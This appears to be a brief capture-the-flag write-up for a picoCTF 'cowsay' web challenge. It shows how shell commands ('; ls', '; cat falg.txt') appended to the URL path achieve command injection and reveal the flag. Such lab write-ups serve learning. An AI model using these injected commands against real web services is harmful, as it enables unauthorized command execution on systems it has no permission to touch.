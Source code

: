 >On clicking the link we will be redirected to a webpage "https://caas.mars.picoctf.net/" which will show a message :
### Make a request to the following URL to cowsay your message:
### https://caas.mars.picoctf.net/cowsay/{message}

>On connecting to the mentioned URL we dont find much information but see "{message}" ,after trying out different methods we find out that it's code injection attack. We find out this by normally using commamnds in URL like :
#### https://caas.mars.picoctf.net/cowsay/{message}; ls

>Now as we found out that commands are working we can use our "cat falg.txt" in our URL and find the flag :
### https://caas.mars.picoctf.net/cowsay/{message};cat falg.txt

#WE FOUND OUR FLAG!!
>picoCTF{mooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}


